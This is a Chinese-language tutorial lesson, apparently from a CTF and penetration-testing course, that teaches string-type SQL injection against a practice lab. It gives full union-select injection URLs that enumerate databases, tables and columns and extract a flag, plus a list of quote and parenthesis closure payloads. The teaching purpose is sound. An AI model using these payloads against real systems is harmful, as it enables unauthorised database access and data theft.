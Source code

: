 
# 2.3、sql注入之字符型注入

## 一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。


## 二、前言

本节课程中将会讲解单引号、双引号以及字符型报错注入三小节的内容。


## 三、什么是字符型注入

字符型注入就是把输入的参数当做字符串对数据库进行查询，字符型注入在sql语句中都采用单引号括起来。字符型注入与数字型注入最大的区别是数字类型不需要单引号闭合，而字符型串类型需要单引号闭合。

这里解释一下为什么需要闭合

以我们的靶场为例，链接如下：

>http://39.98.88.18:8080/sql/Less-1/index.php?id=1

查看一下网站源码，可以后台sql语句如下:

![](img/2.3/1.png)

再这里我们利用 or 1=1 来验证网站是否存在注入，如果我们不进行闭合,链接如下：

>http://39.98.88.18:8080/sql/Less-1/index.php?id=1 or 1=1 --+

这个链接的后台sql语句

>SELECT * FROM users WHERE id='1  or 1=1 --+' LIMIT 0,1

由此可以得知，1前面的单引号没有被闭合。由于拼接了非法了sql语句，数据库无法执行,故无法注入成功。我们是想在数据库中查询出我们想要的数据，就需要对其进行闭合。现构造链接如下：

>http://39.98.88.18:8080/sql/Less-1/index.php?id=1' or 1=1 --+

此链接的后台sql如下：

SELECT * FROM  users WHERE id='1 ’ or 1=1 --+' LIMIT 0,1

因--+后面被注释，我们讲前半部分带入数据库中执行,如下图可以发现执行成功。将or 1=1 换成其他的sql语句便可以从数据库查询出我们需要的数据。

![](img/2.3/2.png)

## 四、字符型单引号注入实战

靶场地址：http://39.98.88.18:8080/sql/Less-1/index.php?id=1

若有细节不懂的地方，可以翻看前几次课程，或者随时在星球内提问。

## #1.判断注入点

在id=1的后面添加一个单引号，然后报出错误。说明此处存在注入。

![](img/2.3/3.png )

## #2.报错信息分析

报错语句分析：

>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1

报错语句中一共有五个引号，去除最外面两个标示错误位置的引号，还有三个，1左边一个，右边两个，我们刚刚在1后面添加了一个引号。由此可以得知，这是单引号字符型报错注入。

## #3.进行闭合

我们尝试用or 1=1 进行闭合。构造链接如下

>http://39.98.88.18:8080/sql/Less-1/index.php?id=1' or 1=1 --+

构造成功

![](img/2.3/4.png)

## #4.判断列数

>http://39.98.88.18:8080/sql/Less-1/index.php?id=1' order by 4--+

![](img/2.3/5.png)

## #5.判断回显位置

>http://39.98.88.18:8080/sql/Less-1/index.php?id=-1' union select 1,2,3--+

![](img/2.3/6.png)

## #6.查询数据名

>http://39.98.88.18:8080/sql/Less-1/index.php?id=-1 ' union select 1,group_concat(schema_name),3 from information_schema.schemata--+

![](img/2.3/7.png)

## #7.查询列名

>http://39.98.88.18:8080/sql/Less-1/index.php?id=-1 ' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema= 'security '--+

![](img/2.3/8.png)

## #8.查询表名

> http://39.98.88.18:8080/sql/Less-1/index.php?id=-1 ' union select 1,group_concat(column_name),3 from information_schema.columns where table_name= 'flag '--+

![](img/2.3/9.png )

## #9.查询数据

>http://39.98.88.18:8080/sql/Less-1/index.php?id=-1'union select 1,flag,3 from flag--+

![](img/2.3/10.png)

成功查询出数据。


## 五、其他类型字符串注入漏洞

在实际的渗透中,字符型注入并不都是由单引号闭合。还有双引号，单括号，双括号，或者前几种组合等可能，下面提供一份常见的闭合列表

> or 1=1 --+

> 'or 1=1 --+

> "or 1=1 --+

> )or 1=1 --+

> ')or 1=1 --+

> ") or 1=1 --+

> "))or 1=1 --+

以上这些类型的注入与我们上文的单引号注入漏洞并无本质的区别，唯一的区别就是在注入时闭合方式的不同，其他与上述相同。在后面的习题中会给出相应的练习题，请大家自行尝试，然后在稍后的我会给出解题文档。

## 六、课后习题

单引号字符型注入：

>http://39.98.88.18/challenges#%E5%8D%95%E5%BC%95%E5%8F%B7%E5%AD%97%E7%AC%A6%E5%9E%8B

单引号+单括号字符型注入：

>http://39.98.88.18/challenges#%E5%8D%95%E5%BC%95%E5%8F%B7+%E5%8D%95%E6%8B%AC%E5%8F%B7%E5%AD%97%E7%AC%A6%E5%9E%8B%E6%B3%A8%E5%85%A5

双引号+单括号注入

>http://39.98.88.18/challenges#%E5%8F%8C%E5%BC%95%E5%8F%B7+%E5%8D%95%E6%8B%AC%E5%8F%B7%E5%AD%97%E7%AC%A6%E5%9E%8B%E6%B3%A8%E5%85%A5
